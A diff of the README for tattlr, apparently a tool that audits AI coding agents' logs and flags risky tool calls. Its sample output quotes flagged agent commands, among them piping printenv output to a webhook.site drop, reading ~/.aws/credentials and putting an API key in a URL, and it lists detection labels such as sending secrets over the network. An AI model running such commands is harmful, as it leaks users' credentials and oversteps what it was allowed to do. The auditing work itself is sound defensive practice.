

Before and after one commit to kaygaaf/tattlr, a Markdown page: README.md, the part around the change printed below. Shown: that part at 86% size. Drawn GitHub-style; pictures changed too: docs/card.png (added); blank space fills up the shorter version.

Commit message:
readme: launch hook, quickstart, install options, card

````diff
--- a/README.md
+++ b/README.md
@@ -63,7 +92,7 @@ $ tattlr scan --home testdata/home
 
  WORST MOMENTS
  CRIT  Oct 22 14:04  codex  ~/code/landing-page
-       Sent secrets over the network, Talked to a paste or webhook drop site, Uploaded a local file, Dumped environment variables
+       Sent secrets over the network, Talked to a paste or webhook drop site +2 more
        printenv | curl -s -X POST --data-binary @- https://webhook.site/5f1e2d3c
  CRIT  Oct 27 11:00  claude-code  ~/code/billing-api
        Touched a tattlr canary, Dumped environment variables
@@ -78,16 +107,18 @@ $ tattlr scan --home testdata/home
        Touched a tattlr canary, Read a secret file
        cat ~/.aws/credentials
 
- Read 15 log files locally. Nothing left this machine. Secrets in commands are masked. 2 canaries planted. Run `tattlr protect install` to block this stuff live.
+ Read 15 log files on this machine. Nothing was uploaded. Secrets in commands are masked.
+ Next: `tattlr protect install` blocks this stuff before it runs. YOLO mode stays on.
 ```
 
-Secrets that show up in commands get masked before anything is printed:
+Secrets that show up in commands get masked before anything is printed (see the last line):
 
 ```
 $ tattlr scan --home testdata/home --project landing --top 4 --moments 3
+  TATTLR   RAP SHEET  1 session, 8 tool calls, Oct 22 2026
 
-  TATTLR   RAP SHEET
- 1 session, 8 tool calls, 5 flagged calls, Oct 22 2026
+ 5 of 8 tool calls looked sketchy. Most wanted: codex (menace).
+ Secrets got sent over the network once.
 
  AGENT         SESSIONS  CALLS  FLAGGED  CRIT  HIGH   MED   LOW  SCORE  VERDICT
  codex                1      8        5     1     4     4     0     69  menace
@@ -101,7 +132,7 @@ $ tattlr scan --home testdata/home --project landing --top 4 --moments 3
 
  WORST MOMENTS
  CRIT  Oct 22 14:04  codex  ~/code/landing-page
-       Sent secrets over the network, Talked to a paste or webhook drop site, Uploaded a local file, Dumped environment variables
+       Sent secrets over the network, Talked to a paste or webhook drop site +2 more
        printenv | curl -s -X POST --data-binary @- https://webhook.site/5f1e2d3c
  HIGH  Oct 22 14:03  codex  ~/code/landing-page
        Ran git reset --hard, Asked to run outside the sandbox
@@ -110,12 +141,19 @@ $ tattlr scan --home testdata/home --project landing --top 4 --moments 3
        Put a secret in a URL
        curl -s 'https://api.mailsend.example/v1/lists?api_key=[REDACTED]' | jq length
 
- Read 15 log files locally. Nothing left this machine. Secrets in commands are masked. 2 canaries planted. Run `tattlr protect install` to block this stuff live.
+ Read 15 log files on this machine. Nothing was uploaded. Secrets in commands are masked.
+ Next: `tattlr protect install` blocks this stuff before it runs. YOLO mode stays on.
 ```
 
 In a terminal the severities are colored. Set `NO_COLOR` or pass `--no-color` to turn that off. Times are shown in your local timezone.
 
-`--card` makes a 1200x630 image that only has totals, agent names and offense names on it. No commands, paths, project names or secrets, so it is safe to post. You get a PNG if `rsvg-convert`, `resvg`, Inkscape, ImageMagick or Chrome is installed, otherwise tattlr writes an SVG.
+### The card
+
+`tattlr scan --card card.png` makes this:
+
+![a tattlr rap sheet card: 45 tool calls, 32 flagged, 8 critical, claude-code most wanted](docs/card.png)
+
+It's 1200x675 (16:9, so X and most link previews show it uncropped), rendered at 2x. It only has totals, agent names and offense names on it. No commands, paths, project names or secrets, so it is safe to post. You get a PNG if `rsvg-convert`, `resvg`, Inkscape, ImageMagick or Chrome is installed, otherwise tattlr writes an SVG.
 
 ## What it detects
 
````
Also changed, not shown: other parts of README.md (+41 -8 lines).
